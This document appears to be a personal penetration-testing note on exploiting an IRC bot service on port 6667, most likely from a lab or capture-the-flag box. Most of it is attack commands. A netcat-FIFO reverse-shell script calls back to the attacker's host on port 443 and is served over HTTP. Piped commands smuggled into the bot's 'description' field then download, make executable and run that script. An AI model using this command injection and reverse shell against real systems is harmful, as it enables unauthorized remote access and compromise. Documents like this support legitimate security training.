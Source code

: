 ```yaml
---
category: Uncategorized
tags: []
---
```

```bash - kali
nc -nvv $TARGET 6667
```

If getting disconnects with this method, try [[Port 6667 - IRC#Hexchat]].

```bash - kali
nick kali
```

```bash - kali
user kali 8 * kali
```

```bash - kali
list
```

```bash - kali
join #mailAssistant
```

```bash - kali
privmsg spaghetti_BoT !command
```

```bash - kali
privmsg spaghetti_BoT !about
```

```bash - kali
echo '#!/bin/bash \nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $KALI 443 >/tmp/f' > Shelly.sh
```

```bash - kali
python3 -m http.server 80
```

![[rlwrap]]

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |wget $KALI:80/Shelly.sh
```

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |chmod +x Shelly.sh
```

```bash - kali
privmsg spaghetti_BoT email:kali@kali.lan description:test |./Shelly.sh
```

#### Hexchat
```bash - kali
sudo apt-get install hexchat
```

Add > Edit

![[Pasted image 20220320171011.png | 600]]

Once connected, go to Server > Channel list.

Enter a wildcard `*` in the search bar and hit search.

* May have to decrease the "channels with" value to 1.

![[Pasted image 20220320171419.png | 600]]


